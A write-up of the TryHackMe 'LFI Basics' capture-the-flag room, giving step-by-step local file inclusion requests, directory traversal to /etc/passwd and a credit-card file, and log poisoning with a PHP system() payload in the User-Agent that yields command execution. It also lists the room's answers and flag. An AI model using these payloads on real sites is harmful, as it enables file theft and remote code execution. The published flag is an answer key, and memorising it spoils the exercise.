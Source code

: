 ```yaml
---
layout: post
title: Write-Up [THM] LFI Basics
categories: [Write-Ups, TryHackMe]
tags: [TryHackMe, LFI]
featured-image:  thm/lfiBasics/theme.png
featured-image-alt: LFI Basics
---
```


It's a write-up about the room : [Try Hack Me - Room : LFI Basics](https://tryhackme.com/room/lfibasics)

# [Task 1] - Local File Inclusion

* What's the message you get when you include the home.html?

We went on `http://ip_machine/lfi/lfi.php/?page=home.html` and the message was **You included home.html**.

* What user that it's not by default there is present?

We read the passwd file : `http://ip_machine/lfi/lfi.php/?page=/etc/passwd` and found the user **lfi**.

# [Task 2] - Local File Inclusion using Directory Traversal

* Add the "?page=" parameter, and try to include the home page again. Does it work (Yes/No)? **No** 

* What are the credit card numbers ? 

`http://ip_machine/lfi2/lfi.php/?page=../creditcard` and found **1111-2222-3333-4444**.

# [Task 3] - Reaching RCE using LFI and log poisoning

`http://ip_machine/lfi/lfi.php/?page=/var/log/apache2/access.log`

* Can you read the log (Yes/No)? **Yes**

* Give it a try and run uname -r. What's the output of the command?

`http://ip_machine/lfi/lfi.php?page=/var/log/apache2/access.log&lfi= uname -r`

With BurpSuite, we changed the User-Agent :  
`Mozilla/5.0 <?php system($_GET['lfi']); ?> Firefox/79.0`.   

And after that we send with the repeater : `http://<IP>/lfi/lfi.php?page=/var/log/apache2/access.log&lfi=uname%20-r`.  
The answer is : `4.15.0-72-generic`

* With this knowledge read the flag from the lfi user home directory.

To begin we searched what file can contained the flag with the command ls in the lfi user home directory : `GET /lfi/lfi.php?page=/var/log/apache2/access.log&lfi=ls%20../../../../../../home/lfi/`

We found :
```
Documents
Downloads
Music
Pictures
Public
Templates
Videos
flag.txt
```

Therefore we read the content of the file flag.txt : 
`GET /lfi/lfi.php?page=/var/log/apache2/access.log&lfi=cat%20../../../../../../home/lfi/flag.txt`.  

We found the last flag : **THM{a352a5c2acfd22251c3a94105b718fea}**.